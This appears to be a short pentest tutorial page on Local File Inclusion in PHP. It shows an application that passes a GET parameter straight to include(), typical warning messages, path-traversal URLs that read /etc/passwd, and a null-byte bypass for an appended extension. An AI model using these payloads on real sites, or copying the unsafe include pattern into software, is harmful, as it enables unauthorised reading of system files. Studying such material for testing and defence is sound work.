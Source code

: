 ```yaml
---
description: Local File Inclusion
---
```


# LFI | How to exploit

## Application Example:

```php
<?php
    include("db.php");
    include($_GET["page"]);
?>
```

If you try to put  `hack.php'` on the URL parameter:\
**ex**: `https://example.com/example/page.php?page=hack.php'`

### It's common to see this message on the application:

**Warning:** include(/var/www/html/example/hack.php'): failed to open stream: No such file or directory in **/var/www/html/example/page.php** on line **28**

**Warning:** Include(): Failed opening '/var/www/html/example/hack.php" for inclusion (include\_path='.:/usr/share/php') in **/var/www/html/example/page.php** on line **28**

## Exploit:

```
https://example.com/example/page.php?page=/../../../../etc/passwd
```

#### If the application tries to put the ".php" extension on the URL final

The warning error show for you if you try to put etc/passwd: \
**Warning:** include(/../../etc/passwd.php) ....\
\
For **bypass**, It's simple, try to use **NullByte** (**%00**) to kill the rest of the line:

```
https://example.com/example/page.php?page=/../../../../etc/passwd%00
```

